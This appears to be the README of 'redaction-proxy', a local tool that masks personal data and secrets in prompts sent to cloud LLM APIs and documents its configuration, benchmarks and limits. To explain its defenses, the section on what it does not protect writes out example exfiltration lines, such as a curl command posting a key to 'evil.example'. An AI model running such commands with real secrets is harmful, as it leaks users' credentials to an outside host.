

# redaction-proxy

**English** · [繁體中文](README.zh-TW.md) · [简体中文](README.zh-CN.md) · [日本語](README.ja.md)

A small proxy on your own machine that replaces emails, API keys, ID numbers, and other personal data with placeholders before a prompt reaches a cloud LLM, and puts the real values back in the reply.


It works with any OpenAI- or Anthropic-compatible client, streaming included, and needs no local model. It **reduces** leaks of personal data and secrets; it does **not** make a conversation private.

> **Status:** 0.1.0, not yet on npm. Verified against the real DeepSeek Chat Completions API (2026-10-08, see below); OpenAI, Anthropic and real clients such as Claude Code are not verified yet.

## Intro video

[](docs/media/intro.mp4)

The recording replays real output of `pnpm demo` and of one more request through the proxy (captions in English). [MP4 version](docs/media/intro.mp4).

## Quick start (30 seconds)

Requires Node 22.19+ and pnpm. From a clone of this repository:

```sh
pnpm install
pnpm demo          # no API key: fake upstream + proxy + one streamed request
pnpm build
node lib/cli.js    # the proxy, on http://127.0.0.1:8787
```

`pnpm demo` prints (the demo input is Traditional Chinese):

```text
client sends:      請寄信給 lin.fictional@example.test，身分證 A123456789，檔案在 /Users/fictional-user/notes.md
[proxy log] POST /v1/chat/completions -> 200 masked 3 (EMAIL 1, TWID 1, PATH 1) restored 3 unknown 0 8ms
upstream received: 請寄信給 ⟦EMAIL_1⟧，身分證 ⟦TWID_1⟧，檔案在 ⟦PATH_1⟧/notes.md
client receives:   I will email lin.fictional@example.test about /Users/fictional-user/notes.md (ID A123456789).
```

### Docker

Not yet built or tested; Docker was not available where this image was written.

```sh
docker build -t redaction-proxy .
export REDACTION_PROXY_AUTH_TOKEN=$(openssl rand -hex 32)
docker run --rm -p 127.0.0.1:8787:8787 -e REDACTION_PROXY_AUTH_TOKEN redaction-proxy
```

> **Always publish with `-p 127.0.0.1:8787:8787`, never `-p 8787:8787`.** The image binds `0.0.0.0` inside the container, so it refuses to start without `REDACTION_PROXY_AUTH_TOKEN` and answers 401 to any request without the token, except a browser's CORS preflight from an allowed origin, which it answers itself without forwarding anything (a page from any other origin gets 403). The token travels as plain HTTP; the `127.0.0.1:` prefix keeps it, and the API keys your tools send through the proxy, off your network.

Clients send the token in the `x-redaction-proxy-token` header: Claude Code with `ANTHROPIC_CUSTOM_HEADERS="x-redaction-proxy-token: $REDACTION_PROXY_AUTH_TOKEN"`; the OpenAI and Anthropic SDKs with their default-headers option (`default_headers` in Python, `defaultHeaders` in TypeScript).

A config file: add `-v "$PWD/redaction.json:/redaction.json:ro"` and append `--config /redaction.json`. The name model: build with `--build-arg NAME_MODEL=1` and add `-v ~/models/nym:/models:ro -e REDACTION_PROXY_NAME_MODEL_DIR=/models`.

### npx (after the first npm release)

Not on npm yet; until then, run it from a clone as in the [quick start](#quick-start-30-seconds). Once it is published:

```sh
npx redaction-proxy --demo
npx redaction-proxy           # the proxy, on http://127.0.0.1:8787 (loopback: no token needed)
```

## Point your tool at it

> **Real services: DeepSeek only so far.** On 2026-10-08 the [real-service harness](e2e/real/README.md) passed 4 of 4 scenarios against DeepSeek (Chat Completions; JSON and streaming; plain text and a forced tool call): the upstream saw only placeholders and all 5 values were restored each time. OpenAI and Anthropic were skipped (no key), and no real client has been tried.

Your tool keeps sending its own API key; the proxy forwards it and never stores it.

| Tool | Setting | Status |
| --- | --- | --- |
| Claude Code | `ANTHROPIC_BASE_URL=http://127.0.0.1:8787 claude` | Untested |
| Anthropic SDK | `ANTHROPIC_BASE_URL=http://127.0.0.1:8787` (no `/v1`) | Untested |
| OpenAI SDK and most compatible tools | `OPENAI_BASE_URL=http://127.0.0.1:8787/v1` (with `/v1`) | Untested |
| DeepSeek | Start the proxy with `REDACTION_PROXY_OPENAI_UPSTREAM=https://api.deepseek.com node lib/cli.js`, then use `OPENAI_BASE_URL=http://127.0.0.1:8787/v1` with your DeepSeek key. This replaces the OpenAI upstream. | Verified with the real-service harness (API only) |
| Cursor | Not supported: Cursor sends custom base-URL requests from its own servers, which cannot reach your `127.0.0.1`. | — |

<details><summary>curl example and configuration file</summary>

```sh
curl http://127.0.0.1:8787/v1/chat/completions \
  -H "authorization: Bearer $OPENAI_API_KEY" \
  -H "content-type: application/json" \
  -d '{"model":"gpt-4o-mini","messages":[{"role":"user","content":"email lin@example.test"}]}'
```

Pass a JSON file with `node lib/cli.js --config redaction.json`; environment variables override it. Upstream API keys never go in the file, and an unknown key stops startup.

| Key | Default | Meaning |
| --- | --- | --- |
| `port` | `8787` | TCP port. |
| `host` | `127.0.0.1` | Address to bind. An address that is not loopback (such as `0.0.0.0` in Docker) requires `authToken`. |
| `authToken` | none | Token every client must send in the `x-redaction-proxy-token` header, at least 16 characters (`openssl rand -hex 32`). Optional on loopback. Claude Code sends it with `ANTHROPIC_CUSTOM_HEADERS="x-redaction-proxy-token: <token>"`; SDKs through their default-headers option. |
| `allowedOrigins` | none | Browser or Electron origins served besides loopback `http(s)` pages, such as `app://my-client`. `null` (`file://` pages) is not accepted. |
| `openaiUpstream` | `https://api.openai.com` | Upstream for Chat Completions and Responses. |
| `anthropicUpstream` | `https://api.anthropic.com` | Upstream for Anthropic Messages. |
| `allowInsecureUpstream` | `false` | Allow plain `http://` to an upstream that is not loopback, which sends API keys in cleartext. |
| `redaction.terms` | none | Names and other words to mask, case-insensitive; a term starting or ending with a Latin letter or digit matches only as a whole word (`Lin` skips `Linux`), a CJK term matches inside text. A term that is also a whole word of a tool or participant `name` (`nimbus_deploy`) gets every request mentioning it refused (422), since `name` fields are sent unmasked. |
| `redaction.projectNames` | none | Project code names to mask. |
| `redaction.allowlist` | `git@github.com`, `noreply@github.com` | Values never masked. |
| `redaction.rules` | all but `card` and `entropy` | Built-in rules to enable. `card-strict` and `entropy-strict` replace `card` and `entropy`: they never cut a digit run in half and skip file-keyed digests. |
| `nameModel` | none | Turns on the [experimental name model](#optional-name-model-experimental). It fails open: when the model fails on a request, the request goes out with rules-only masking and its log line says `nameModel failed`, unless `nameModel.required` is `true` (then 503, nothing sent). |
| `screen` | `replace` | On control characters: replace them with visible stand-ins (`replace`) or refuse the request (`refuse`). |
| `debugMasked` | `false` | Log each masked request body, including the fields the proxy does not mask (`metadata`, image URLs, base64 data) verbatim. For debugging only. |
| `knownOriginalsTtlSeconds` | `86400` (24 hours) | Seconds a detected value stays remembered for the client's later requests, counted from its last detection; `0` remembers nothing. Environment: `REDACTION_PROXY_KNOWN_ORIGINALS_TTL_SECONDS`. |
| `toolRestore.categories` | `PATH`, `TERM`, `PROJECT` | Placeholder categories restored into tool-call arguments; any other category reaches the tool as the placeholder. `"*"` restores every category. Environment: `REDACTION_PROXY_TOOL_RESTORE_CATEGORIES` (comma-separated). |
| `toolRestore.tools` | none | Categories restored into one tool's arguments, by tool name (trimmed, in any case), replacing `categories` for that tool, such as `{"git_commit": ["PATH", "EMAIL"]}`; `"*"` restores every category. |

```json
{
  "redaction": {
    "terms": ["林小明", "Denise Whitlock"],
    "projectNames": ["Nimbus"]
  }
}
```

Environment variables and every option: [technical details §12](docs/DETAILS.md#12-完整設定) (Traditional Chinese). The log has one line per request with counts and duration, and one line per placeholder in tool-call arguments (restored or kept, its id, the tool, and the argument path); never an original value or a header, unless `debugMasked` is on.

For clients that send no API key, the proxy adds one from two environment-only variables: `REDACTION_PROXY_OPENAI_API_KEY` (sent as `Authorization: Bearer` when an OpenAI-style client sends no `authorization`) and `REDACTION_PROXY_ANTHROPIC_API_KEY` (sent as `x-api-key` when an Anthropic-style client sends neither `x-api-key` nor `authorization`). They are kept in memory only, and all clients that rely on them share one memory scope.

</details>

## What it masks


| Category | Example | The cloud sees |
| --- | --- | --- |
| Email | `lin@example.test` | `⟦EMAIL_1⟧` |
| API keys and credentials | `sk-…`, `ghp_…`, `AKIA…`, `glpat-…`, `sk_live_…`, JWT, `Bearer …`, `password=…`, `the token is …` | `⟦KEY_1⟧` |
| Home-directory path (prefix only) | `/Users/lin/notes.md` | `⟦PATH_1⟧/notes.md` |
| Private IP, internal host | `192.168.1.20`, `100.64.1.2`, `fd12::1`, `nas.local`, `git.corp` | `⟦IP_1⟧`, `⟦HOST_1⟧` |
| Phone numbers in national formats or after a phone word | `(415) 555-0132`, `020 7946 0958`, `Telefon: 030 12345678` | `⟦PHONE_1⟧` |
| Card number (Luhn checked) | 13–19 digits | `⟦CARD_1⟧` |
| Taiwan ID, mobile, business number, passport and health-insurance card after their keyword | `A123456789`, `0912-345-678`, `0912.345.678`, `護照 312345678` | `⟦TWID_1⟧`, `⟦PHONE_1⟧` |
| IDs from 10 more countries and regions, IBAN | US SSN, UK NINO, Chinese resident ID, My Number, … | `⟦NATID_1⟧`, `⟦IBAN_1⟧` |
| Long random strings | hex or base64, 32+ characters | `⟦ENTROPY_1⟧` |
| Words you list | `terms`, `projectNames` | `⟦TERM_1⟧`, `⟦PROJECT_1⟧` |

The same value gets the same placeholder throughout a request. If a value detected in a request is still in it after masking, the proxy refuses to send it (422) rather than leak it. Values a client's requests have detected, if at least 6 ASCII characters or 2 other characters long, are also remembered in memory per client credential for 24 hours after their last detection (`knownOriginalsTtlSeconds`) and masked where they stand alone in its later requests (a credential in any ASCII case), even once the context that detected them (`password: …`) is gone from the history. This memory is best-effort extra masking and never refuses a request: a remembered value glued to other characters (`xTr0ub4dor&3xy`), in a new spelling, or in a field the proxy does not rewrite is sent as is. Values found in your own messages or system prompt are kept apart from those found in tool output, so a large tool result cannot push out a password written there. The memory is bounded, so a local process that can reach the proxy can push values out by sending many requests; the proxy listens only on loopback by default and requires the auth token elsewhere. A snake_case value built only from API field words (`web_server`, `data_store`) is masked only in the request that bound it, so later requests can still name that field. Full-width digits, `＠`, and zero-width characters (U+200B–U+200D, U+2060, U+FEFF, soft hyphen) are folded first; other invisible characters (bidi marks, variation selectors) inside a value are not. Every rule: [technical details §3](docs/DETAILS.md#3-偵測規則).

## How it works

Every POST to a masked route goes through the same steps; a GET is relayed without masking. The proxy keeps no per-conversation placeholder table: it numbers placeholders again from the full history on each request, so in a conversation that only grows, the masked prefix stays the same and the provider's prompt cache keeps working, unless a later turn (or another request with the same credential) first detects a value that already appeared earlier; it is then masked there too, which changes the prefix once ([why and when it breaks](docs/DETAILS.md#4-遮罩順序與提示快取)). Two things do stay in memory per client credential, at most until a restart: the original inputs of Responses API replies, for requests that continue with `previous_response_id` instead of resending history, and the remembered values below.



| Step | What it decides | If it goes wrong |
| --- | --- | --- |
| Gate | Web pages are refused unless their origin is a loopback `http(s)` page or in `allowedOrigins`; without `authToken`, requests for other host names are refused too. It also requires a known route, and the token when `authToken` is set. | 403, 401, 404 or 413; nothing is forwarded. |
| Detection | Format rules (emails, keys, IDs, phones, cards, IPs, hosts, home paths, long random strings), keyword context (`password: …`), the words you list, and the optional name model. | A value the detector misses is sent as is. |
| Masking | The same value gets the same placeholder throughout the request. | A body that is not JSON or is nested too deep gets 400. A continuation whose `previous_response_id` the proxy does not hold gets 422. |
| Leak scan | A value detected in this request that is still in it after masking blocks the request. API enum fields holding an enum value are not scanned; names and listed terms in space-separated scripts count only as whole words; CJK ones count anywhere. | 422; the request is not sent. |
| Memory | Values detected in earlier requests with the same client credential are masked where they stand alone, for 24 hours by default. Best effort: never refuses a request. | A remembered value glued to other text is sent as is. |
| Restore | Placeholders in reply text are restored, except in Anthropic signed `thinking` blocks; inside a URL they stay; in tool-call arguments only the categories `toolRestore` allows are restored. A placeholder the model made up stays as written. | A tool may receive a placeholder instead of a value it needs; allow that category for that tool. A placeholder inside a URL stays whatever the category. |

The proxy forwards your API key unchanged and never stores it; a SHA-256 hash of it keys the per-client memory, and clients that rely on the proxy's fallback key share one scope. Each step in detail (Traditional Chinese): [technical details §1](docs/DETAILS.md#1-架構), [§4 numbering and prompt cache](docs/DETAILS.md#4-遮罩順序與提示快取), [§6 refusals](docs/DETAILS.md#6-拒絕與錯誤狀態碼), [§7 streaming restore](docs/DETAILS.md#7-串流還原), [§8 memory](docs/DETAILS.md#已知原始值), [§9 screening](docs/DETAILS.md#9-控制字元篩檢).

## Optional name model (experimental)

Off by default. Rules alone do not find names. Turn on a small local model ([`Wismut/nym-pii-multilingual-small`](https://huggingface.co/Wismut/nym-pii-multilingual-small), MIT, 108 MB) and it also masks person names, companies, places, and addresses in what **you** write (`⟦NAME_1⟧`, `⟦ORG_1⟧`, `⟦LOC_1⟧`, `⟦ADDR_1⟧`).

```sh
pnpm add -D onnxruntime-node@1.30.0 tokenizers@0.23.2   # the runtime, about 350 MB
node scripts/fetch-name-model.mjs ~/models/nym        # about 125 MB, sha256-checked
REDACTION_PROXY_NAME_MODEL_DIR=$HOME/models/nym node lib/cli.js
```

It misses some names and masks some words that are not names. Measured on synthetic data:

| | Result |
| --- | --- |
| Names in prose: English, Japanese | 1.00, 1.00 recall |
| Names in prose: Traditional Chinese | **0.87** recall (about 1 name in 8 missed) |
| Names in pasted code, logs, JSON | 0.10–0.30 recall: code is not read; list such names in `terms` |
| Precision | 0.94 |
| Cost | about +420 MB memory, p95 about 130 ms per 2 KB of Chinese prose |

What it reads, every number, and the options: [technical details §16](docs/DETAILS.md#16-人名模型實驗性).

## Results

<!-- RESULTS:START -->
**held-out set v2 (written blind, run once).** 1,617 synthetic prompts in 7 languages (English, Traditional and Simplified Chinese, Japanese, Korean, German, French) with 10,268 sensitive values and 2,997 hard negatives. The author never read the rules or the benchmark code; about 60% of the values use non-standard spellings (dotted cards, lower-case IBANs, `name at example dot com`, phone extensions). The set was frozen with a SHA-256 checksum and scored once, on 2026-10-07, with the proxy-default detector `rules-6+intl-2+ext-1`; both held-out sets and their checksums are in [bench/heldout/](bench/heldout/). Every credential-shaped token in them (`ghp_`, `AKIA`, `npm_`, PEM blocks) is synthetic and non-functional, so secret scanners flag them as expected.


| held-out v2, English prompts (1,527 values) | core default rules | proxy default rules | + name model (experimental) | Presidio, cutoff 0 | Presidio, cutoff 0.4 |
| --- | --- | --- | --- | --- | --- |
| Fully masked (macro average of 10 categories) | 25.9% | 39.5% | **44.8%** | 40.4% | 37.8% |
| Left untouched (macro average) | 64.0% | 49.9% | 35.6% | **29.3%** | 35.0% |
| Masked regions that were sensitive | 94.3% | **95.8%** | 94.8% | 64.9% | 68.0% |
| Median time per prompt | 0.10 ms | 0.12 ms | 10.8 ms | 11.4 ms | 11.2 ms |
| Fully masked, all 7 languages | 27.3% | 37.9% | 44.4% | 34.5%* | 32.8%* |

\* Presidio analyzes every prompt as English, so its all-language results are for reference only.

Standard against non-standard spellings, English, fully masked (n = values):

| Category | proxy default, standard | proxy default, non-standard | Presidio 0.4, standard | Presidio 0.4, non-standard |
| --- | --- | --- | --- | --- |
| Email | 100% (n=107) | 61.5% (n=148) | 57.9% | 35.1% |
| Phone | 70.4% (n=54) | 41.1% (n=107) | 83.3% | 85.0% |
| National ID | 89.5% (n=19) | 30.4% (n=23) | 68.4% | 47.8% |
| Card | 94.7% (n=19) | 0.0% (n=40) | 84.2% | 15.0% |
| IBAN | 100% (n=15) | 0.0% (n=46) | 100% | 69.6% |
| Secret | 95.9% (n=49) | 80.7% (n=140) | 12.2% | 5.7% |
| Host | 100% (n=93) | 43.6% (n=149) | 47.3% | 12.1% |
| Name (with name model) | 60.4% (n=164) | 39.1% (n=192) | 42.7% | 44.3% |

The 100% cells are standard spellings only, which the rules are written for, and the samples are small: with n=15 a perfect score means only that none of 15 was missed.

Where it is weak (English, proxy default):

- **Non-standard spellings** of IBANs, cards, and national IDs are mostly missed (0%, 0%, 30% fully masked), and 38% of non-standard emails (`name at example dot com`, internationalized domains, spaced) are left untouched.
- **Paths** are mostly only partly masked (88%): the user name is masked, the rest of the path is kept.
- **Addresses.** There is no address rule: 0% fully masked (the name model partly masks 77%).
- **Names** need the name model, which fully masks 49% (52% in all languages).
- **Phones** are fully masked 51% (Presidio 85%); none with an extension (`x204`) is fully masked.

Restore, a self-check rather than a score: with rules only, restoring the masked text gave the original byte for byte in all 1,617 prompts; with the name model on, in 1,587 of 1,617 (30 were not exact).

These numbers were measured with detector `rules-6+intl-2+ext-1`; the released detector is `rules-12+intl-2+ext-1`, and none of the later changes is in them. Since then, credential values that are schema words, API field names, placeholders, or templates (`password: required`, `${{ secrets.X }}`) are no longer masked, and a term starting or ending with a Latin letter or digit matches only as a whole word. Earlier changes also not in these numbers: the proxy default now also masks lower-case and no-break-spaced Taiwan IDs, mobile numbers grouped by `.`, `/`, or `_` or with a bracketed prefix (`(0912)345678`), Taiwan passport and health-insurance card numbers after their keyword, email addresses with an HTML- or JSON-escaped `@`, quoted credential keys (`"密碼": "…"`, `"jwt": "…"`), and `100.64.0.0/10` and IPv6 unique local addresses; `card-strict` now reads regrouped, dotted, space-and-dash mixed, and line-wrapped card numbers (the proxy default masked 30.5% of English cards here against 44.1% for the core default), and the name model's restore errors are fixed: different spellings of one name (`Jordan`, `JORDAN`) now get separate placeholders (configured terms work the same way, so `Nimbus` and `NIMBUS` each restore as written).

Full tables: [held-out v2 results](bench/results/public-bench-held-out-v2.md). The earlier [held-out v1 run](bench/results/public-bench-held-out.md) (1,518 prompts, older rules `rules-6+intl-1`, standard spellings only) is kept for history. Method and other measurements: [technical details §18](docs/DETAILS.md#18-實測數字).
<!-- RESULTS:END -->

## Protection scope

- **Protected:** the cloud provider never receives a value the proxy detected; it sees only the placeholder.
- **Not protected:** once a value is restored on your machine, what your tools do with it is outside the proxy. Anything the detector misses is sent as is; see [What it does not protect](#what-it-does-not-protect) and the [full list of limits](docs/DETAILS.md#17-完整限制清單).
- **Two tiers.** A value detected in a request is masked throughout that request, and the request is refused (422) if the value is still in it after masking. Memory across requests is best-effort extra masking: it never refuses a request, and a remembered value glued into other text or in a new spelling may be sent as is.
- **Does not work:** tasks that need the content of a masked value, such as the domain of an email or transforming a key: the model sees only `⟦EMAIL_1⟧`.
- **Content that must never leave your machine** should be answered by a local model instead, for example through a router that keeps such turns local ([dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router)).

## What it does not protect

- **Meaning.** The cloud still reads everything around the placeholders: `⟦PATH_1⟧/clients/acme-layoffs.md` still says a lot.
- **Names, addresses, health details, salaries**, unless you list them in `terms` or the name model finds them. Addresses are free text with no fixed format or keyword, so there is no address rule.
- **Images, PDFs and other base64 files (a plain-text document's text is masked), audio, `url` fields, `metadata`, `stop` sequences, `name` fields (tool and participant names), signed thinking.** These are forwarded unchanged and never scanned, nor are JSON object keys: a value found in the masked text that also appears in one makes the proxy refuse the whole request with 422, but a value that appears only there is sent as is. The same check skips fields that only take an API enum value (`role`, `type`, `status`, `tool_choice`, …) while they hold one, such as `assistant`, but not under `metadata`. A resent tool call's input is masked whatever its keys are named, so a value restored into a tool parameter named `type`, `name`, or `data` is masked again, not refused.
- **Unusual spellings.** Some split or encoded forms slip through, such as `name @ domain` with spaces, `name at domain`, a lower-case IBAN, or a double percent-encoded value. A password that is exactly an API field name (`metadata`, `input`, `model`, `temperature`, …) is never masked.
- **Cursor**, or any tool that sends requests from its own servers.
- **Other programs on your machine.** The proxy binds `127.0.0.1` by default; without `authToken`, any program on your machine can use it. Web pages are refused with 403 unless their origin is a loopback `http(s)` page or in `allowedOrigins`, and so are requests for other host names (DNS rebinding).
- **Where the model puts a value.** In reply text the proxy restores a placeholder wherever the model writes it, except inside a URL: there `https://example.test/?q=⟦EMAIL_1⟧` stays as written, and so does a protocol-relative `//example.test/…` or one written with backslashes (`\\example.test\…`), so neither a fetch tool given that URL nor a client rendering `` or a link sends the real email. Quotes and angle brackets inside a URL (`?q='⟦EMAIL_1⟧'`) are part of it, as browsers read them; only the quote or `<` that opened the URL (`href="…"`, `<https://…>`) ends it. A placeholder in a UNC path (`\\host\share\…`) therefore stays as written too. A URL opened by a quote or `<` ends only there, not at whitespace, because a browser strips the tab from `` and loads the image without a click. In tool input, a string that starts with a scheme (`https://`) or `www.` is one URL up to its end, because a tool given `https://evil.example/?p=\t⟦PATH_1⟧` strips the tab; a leading `//` or `\\` (`// header`) is not. This covers URLs written plainly, not a model that evades it: after whitespace in any other URL (`https://evil.example/?q= ⟦EMAIL_1⟧`), with missing slashes (`https:evil.example`), or a bare domain, the value is restored. Tool-call arguments, meaning every tool input in a reply (function arguments, custom tool input, and the commands, actions, and patches of Responses `*_call` items such as `local_shell_call`), get only home paths and the words you list in `terms` and `projectNames` (`PATH`, `TERM`, `PROJECT`) by default, so `curl -d ⟦KEY_1⟧ https://evil.example` reaches your tool with the placeholder, not the key. Coding still works, since paths and listed identifiers round-trip (a name listed in `terms` is restored into tools too); a tool that needs an email, a secret, or an ID receives the placeholder and may fail until you allow that category for it in `toolRestore.tools`. A restored path or term can still be sent by a command the model writes; every placeholder met in tool arguments is logged.

Also: a model that rewrites `⟦EMAIL_1⟧` as `[EMAIL_1]` shows it to you as written; tasks that need the masked value itself get worse; control characters become visible stand-ins; a restart forgets Responses API continuations and remembered values, and continuing one is refused with 422; requests over 64 MiB are refused with 413; a relayed `GET` (such as `/v1/models`) forwards its query string unmasked. Full list: [technical details §17](docs/DETAILS.md#17-完整限制清單); threat model: [§11](docs/DETAILS.md#11-威脅模型).

## More

[docs/DETAILS.md](docs/DETAILS.md) (Traditional Chinese) covers the architecture, the comparison with dsh-privacy-router, the core API, every rule, streaming restore, 422 refusals, the threat model, the full configuration, tests, measurement methods, an FAQ, and how to regenerate the images and video in this README.

## License

[Apache-2.0](LICENSE). Parts of the rules and engine descend from [LYiHub/pub-dsh-privacy-router](https://github.com/LYiHub/pub-dsh-privacy-router) (MIT); see [NOTICE](NOTICE).
